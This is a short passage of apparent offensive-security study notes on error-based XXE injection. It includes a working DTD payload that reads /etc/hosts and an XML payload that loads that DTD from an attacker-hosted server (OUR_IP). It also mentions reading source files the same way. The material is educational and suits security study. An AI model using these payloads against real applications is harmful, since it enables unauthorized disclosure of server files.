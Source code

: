 If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

First, we will host a DTD file that contains the following payload:
```dtd
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%entity;/%file;'>">
```
Open up a web server using Python to host the file, then call our DTD script as part of the payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
<root>
	<name>&entity;</name>
</root>
```
This method may also be used to read source files. However, it is not as reliable as the [CDATA technique](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FXXE%20Injection%2FCommon%20XXE%20Attacks%2FAdvanced%20FIle%20Disclosures%2FAdvanced%20Exfiltration%20with%20CDATA) due to length limitations or certain special characters breaking it.